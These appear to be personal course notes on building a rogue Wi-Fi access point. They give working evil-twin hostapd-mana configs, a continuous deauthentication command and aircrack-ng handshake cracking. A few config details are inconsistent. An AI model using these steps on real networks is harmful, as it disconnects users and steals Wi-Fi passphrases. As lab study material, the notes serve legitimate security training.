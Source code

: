 # Chapter 8 - Rogue AP

## My Notes


## Discovery
```
sudo airodump-ng -w discovery --output-format pcap wlan0mon

To get more information, let's open the output Pcap in Wireshark by running wireshark discovery-01.cap.

To find the beacon for the target AP, we can use a filter to limit the types of packets displayed. First, we can display only beacon packets by using the filter:

1) wlan.fc.type_subtype == 0x08. 
	1) Management frames use "0" as the type and beacon frames are set to "8" as the subtype. 
2) We can also only target the Mostar SSID by:
	1) adding && 
	2) and using the filter wlan.ssid == "Mostar".
```

## Attack
```

cat Mostar-mana.conf

interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx

sudo hostapd-mana Mostar-mana.conf


sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon

aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst



```
-------

## Other Notes

## Creating a Rogue AP
Evil twins can be in any channel, except if we clone the BSSID of the AP we want to impersonate, in which case the channel must be different. But APs with different BSSID and equal ESSID can coexist in the same channel.

If we get a connection in an evil twin, the connected client won't have internet access if we don't give him an IP with a dhcp server.

<font color=red>with hostapd, we need to be listening with airodump (on another wifi interface) at the same time that we host the fake ap, to capture handshakes of clients that try to connect to us, despite the PSK mismatch (since we don't know the real PSK but will crack it from their handshake to us)</font>

Deauth a client if he doesn't connect to our AP
``sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon``

### hostapd / hostapd-mana
hostapd-mana is an enhanced version of hostapd. Both are used for hosting fake APs, but mana includes more options to do things like dump passwords obtained from the handshake. Hostapd-mana can read hostapd config files, but also includes other options 

Install
```bash
sudo apt install hostapd-mana
sudo apt install hostapd-mana
```

Run
```bash
hostapd a.conf
hostapd-mana a.conf
```

Parameters: 
- ``driver=nl80211``  -> always the same for all linux devices
- ``hw_mode=g`` -> 2.4 GHz  y 54 Mb
- auth_algs (this is for WEP, for WPA use the equivalent ``wpa`` parameter-> 
	- ``auth_algs=0`` ->OPEN
	- ``auth_algs=1`` ->WEP
	- ``auth_algs=2`` -> Both
- ``wep_key0`` <- we can use up to 4
- Type of security
	- ``wpa=3`` -> activate both WPA and WPA2
	- ``wpa=2`` -> activate only WPA2
	- ``wpa=1`` -> activate only WPA

Type of authentication:
- ``wpa_key_mgmt=WPA-PSK``
- ``wpa_passphrase=<passphrase>`` -> passphrase in the case of PSK auth, we can set anything here, we don't care it's wrong

Encryption type (if the target is exclusiveliy WPA1 or WPA2 use just one of the following):
- ``wpa_pairwise=TKIP CCMP`` -> TKIP or CCMP encryption with WAP1
- ``rsn_pairwise=TKIP CCMP`` -> TKIP or CCMP encryption with WPA2

- ``mana_wpaout``-> where to save the captured handshakes (in a Hashcat hccapx format). 

#### hostap with  no encryption
```
interface=wlan1
ssid=hostel-A
hw_mode=g
channel=6
driver=nl80211
```

#### hostap with wep
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=hostel-A
auth_algs=1
wep_default_key=0
wep_key0="54321"
```

#### hostap with WPA-PSK
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=HomeAlone
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
wpa_passphrase=welcome@123
```

#### hostap with WPA2-PSK
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=Lost-in-space
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup

# SSID 2
bss=wlan1_0
ssid=LOCOMO-Mobile-hotspot
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup
```

alternative
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211

ssid=Lost-in-space
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=beautifulsoup
```

#### Hosting several APs
Two different ESSIDs with the same wifi antenna (interface wlan1). With hostap, if we want to simulate several ESSIDs, the first one must use the keyword "interface" and the real interface name, and the next ones use the keyword "bss" and we use fictitious names, like wlan1_0. This can be used if a client probes different clients.
```
# SSID 1
interface=wlan1
driver=nl80211
ssid=dex-net
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1

# SSID 2
bss=wlan1_0
ssid=dex-network
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```


```
interface=wlan0
ssid=<ESSID>
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/output.hccapx
```
